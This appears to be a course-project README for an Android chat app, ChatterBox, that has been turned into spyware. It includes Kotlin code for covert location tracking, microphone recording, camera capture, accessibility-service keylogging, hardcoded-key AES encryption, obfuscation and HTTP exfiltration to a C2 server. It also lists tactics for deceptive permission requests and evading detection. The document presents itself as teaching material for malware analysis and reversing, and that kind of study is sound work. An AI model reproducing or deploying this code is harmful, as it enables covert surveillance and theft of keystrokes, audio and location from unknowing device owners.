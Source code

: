 # ChatterBox Malicious Functionality Documentation

This document explains the malicious functionality implemented in the ChatterBox application for educational purposes in the ICT2215 Mobile Security module.

## Overview

The ChatterBox application has been modified to include covert data collection and exfiltration capabilities. The malicious functionality is designed to collect:

1. Location data (both foreground and background)
2. Audio recordings from the device microphone
3. Photos taken with the device camera at regular intervals
4. Keylogging through the accessibility service

All collected data is encrypted, obfuscated, and sent to a Command & Control (C2) server.

## Implementation Details

### 1. Main Components

The malicious functionality consists of the following components:

- **DataCollectionService**: A background service that collects location, audio, and photos every 30 seconds
- **KeyloggerService**: An accessibility service that monitors user input across the device
- **StartupReceiver**: A broadcast receiver that automatically starts the services when the device boots up
- **C2Connection**: A utility class for communicating with the C2 server
- **MainActivity modifications**: Code to request necessary permissions and start the malicious services

### 2. Permission Acquisition Strategy

The app uses several techniques to acquire the necessary permissions:

- **Permission Obfuscation**: Permissions are requested with innocent-sounding explanations
- **Two-Stage Requests**: Standard permissions are requested first, followed by more sensitive ones
- **Background Launch**: The services start in the background after acquiring permissions
- **Persistent Reminders**: The app repeatedly prompts for permissions until granted

### 3. Data Collection Methods

#### Location Collection
```kotlin
private fun startLocationUpdates() {
    locationManager = getSystemService(Context.LOCATION_SERVICE) as LocationManager
    if (ActivityCompat.checkSelfPermission(this, Manifest.permission.ACCESS_FINE_LOCATION) == PackageManager.PERMISSION_GRANTED) {
        locationManager?.requestLocationUpdates(
            LocationManager.GPS_PROVIDER,
            COLLECTION_INTERVAL,
            10f,
            locationListener
        )
    }
}
```

#### Audio Recording
```kotlin
private fun startVoiceRecording() {
    val audioFile = File(externalCacheDir, "audio_${System.currentTimeMillis()}.3gp")
    
    mediaRecorder = MediaRecorder().apply {
        setAudioSource(MediaRecorder.AudioSource.MIC)
        setOutputFormat(MediaRecorder.OutputFormat.THREE_GPP)
        setOutputFile(audioFile.absolutePath)
        setAudioEncoder(MediaRecorder.AudioEncoder.AMR_NB)
        prepare()
        start()
        
        // Record for 10 seconds
        handler.postDelayed({
            stopVoiceRecording()
            saveData("audio", audioFile.absolutePath)
        }, 10000)
    }
}
```

#### Photo Taking
```kotlin
private fun takePhoto() {
    val outputFile = File(externalCacheDir, "capture_${System.currentTimeMillis()}.jpg")
    
    val cameraManager = getSystemService(Context.CAMERA_SERVICE) as CameraManager
    val cameraId = getFrontFacingCameraId(cameraManager)
    
    // The actual implementation would use Camera2 API to take a photo
    // This is simplified for demonstration
}
```

#### Keylogging
```kotlin
override fun onAccessibilityEvent(event: AccessibilityEvent) {
    when (event.eventType) {
        AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED -> {
            // Capture text input
            val packageName = event.packageName?.toString() ?: "unknown"
            val eventText = event.text?.joinToString() ?: ""
            
            if (eventText.isNotEmpty()) {
                val data = "TEXT_INPUT:$packageName:$eventText"
                logKeyboardInput(data)
            }
        }
    }
}
```

### 4. Data Exfiltration

All collected data is encrypted using AES encryption with a hardcoded key, then obfuscated before being sent to the C2 server.

```kotlin
private fun encrypt(data: String): String {
    val md = MessageDigest.getInstance("SHA-256")
    val key = md.digest(SECRET_KEY.toByteArray()).copyOf(16) // AES requires 16, 24, or 32 bytes
    val secretKey = SecretKeySpec(key, "AES")
    
    val cipher = Cipher.getInstance("AES")
    cipher.init(Cipher.ENCRYPT_MODE, secretKey)
    
    val encryptedBytes = cipher.doFinal(data.toByteArray())
    return Base64.encodeToString(encryptedBytes, Base64.DEFAULT)
}

private fun obfuscateData(data: String): String {
    // Simple obfuscation - in a real scenario, this would be more sophisticated
    val reversed = data.reversed()
    return Base64.encodeToString(reversed.toByteArray(), Base64.DEFAULT)
}
```

Data is sent to the C2 server using the OkHttp library:

```kotlin
val requestBody = MultipartBody.Builder()
    .setType(MultipartBody.FORM)
    .addFormDataPart(
        "data",
        "data.txt",
        RequestBody.create(
            "text/plain".toMediaTypeOrNull(),
            obfuscateData(dataFile.readText())
        )
    )
    .build()

val request = Request.Builder()
    .url(C2_SERVER_URL)
    .post(requestBody)
    .build()

httpClient.newCall(request).execute()
```

### 5. Anti-Detection Techniques

Several techniques are used to avoid detection:

- **Obfuscated Service Names**: Using innocent names like "DataCollectionService" instead of "SpyService"
- **Delayed Execution**: Services start after a delay to avoid raising suspicion
- **C2 Server Obfuscation**: The C2 server URL is constructed from parts to avoid static analysis
- **Innocent Descriptions**: Using harmless descriptions for malicious components
- **Secret File Storage**: Data is stored in private app directories

## C2 Server

A Python-based C2 server is included to receive the exfiltrated data. It:

1. Listens for HTTP requests from infected devices
2. Decrypts and deobfuscates received data
3. Stores data organized by device ID and data type
4. Provides logging for analysis

## Educational Purpose

This implementation is purely for educational purposes in the ICT2215 Mobile Security module. It demonstrates how malicious code can be integrated into seemingly innocent applications and how data can be exfiltrated covertly.

Understanding these techniques is essential for security professionals to better protect against such threats in real-world scenarios.

## Reversing Challenge

The implementation includes several intentional challenges for reverse engineering practice:

1. Obfuscated method names and variables
2. Multi-layer encryption and encoding
3. Indirect service activation
4. Hidden C2 communication
5. Permission request obfuscation

## Legal and Ethical Disclaimer

This code is provided solely for educational purposes. Using this code to collect data from devices without explicit permission is illegal and unethical. Always practice ethical hacking and obtain proper authorization before security testing.
